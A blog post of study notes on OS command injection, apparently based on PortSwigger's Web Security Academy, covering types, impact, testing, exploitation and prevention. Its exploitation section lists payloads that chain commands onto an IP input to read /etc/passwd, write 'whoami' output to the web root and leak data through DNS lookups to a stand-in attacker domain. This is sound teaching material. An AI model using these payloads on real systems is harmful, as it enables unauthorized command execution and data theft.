 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Theory"
date:   2024-07-06 13:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Introduction
>OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308201">Rana Khalil Academy - OS Command injection</a>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection">PortSwigger - OS Command Injection</a>
<br/>
<a href="https://owasp.org/www-community/attacks/Command_Injection">OWASP - Command Injection</a>
<br/>
<a href="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html">OWASP - OS Command Injection Defense Cheat Sheet</a>
<br/>

### Two conditions for OS Command Injection vulnerabilities:
1. Uses a function that can execute system commands such as exec.
1. The parameter of executable methods are user controllable.

![Code vulnerable to command injection](/images/portswigger/CommandInjection/VulnerableCommandInjectionCodeExample.png)

### Types of Command Injection

#### In-band Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application and `receiving the response of the command in the application.`
<br/>
#### Blind Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application `that does not return the output from the command within its HTTP response.`
<br/>
### Impact of Command Injection Attacks:
- Unauthorized access to the application:
    - `Confidentiality` - Command injection can be used to view sensitive information.
    - `Integrity` - Command Injection can be used to alter content in the application.
    - `Availability` - Command Injection can be used to delete content in the application.
- Remote code execution on the operating system.

![OWASP - Injection Ranking](/images/portswigger/CommandInjection/OWASP_Injection_Ranking)

### How to find Command Injection ?
#### Black-Box Testing
- Map the application
    - Identify all instances where the web application appears to be interacting with the underlying operating system. 
- Fuzz the application. 
    - Shell metacharacters: &, &&, |, ||, ;, \n, `, $(). 
- For in-band command injection, analyze the response of the application to determine if it’s vulnerable. 
- For blind command injection, you need to get creative. 
    - Trigger a time delay using the ping or sleep command. 
    - Output the response of the command in the web root and retrieve the file directly using a browser. 
    - Open an out-of-band channel back to a server you control.
#### White-Box Testing
- Perform a combination of black box and white-box testing. 
- Map all input vectors in the application. 
- Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands. 
- Once a vulnerability is identified, test it to confirm that it is exploitable.

### How to exploit command injection ?
#### Exploiting In-band Command injection
- Shell metacharacters:
```
&
&& 
|
|| 
;
\n
`
$()
```
- Concatenate another command
```
127.0.0.1 && cat /etc/passwd &
127.0.0.1 & cat /etc/passwd &
127.0.0.1 || cat /etc/passwd &
```
#### Exploiting Blind Command Injection
- Shell metacharacters: 
```
&
&&
|
||
;
\n
`
$()
```
- Trigger a time delay
```
127.0.0.1 && sleep 10 &
127.0.0.1 && ping -c 10 127.0.0.1 &
```
- Output the response of the command in the web root and retrieve the file directly using a browser
```
127.0.0.1 & whoami > /var/www/static/whoami.txt #
```
- Open an out-of-band channel back to a server you control.
```
127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &
127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### How to prevent Command injection ?
#### Preventing Command Injection Vulnerabilities
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
- For example: use mkdir() instead of system("mkdir/dir_name")

It is required to perform OS commands using user-supplied input, then strong input validation must be performed. 
- Validate against a whitelist of permitted values. 
- Validate that the input is as expected or valid input.
<hr/>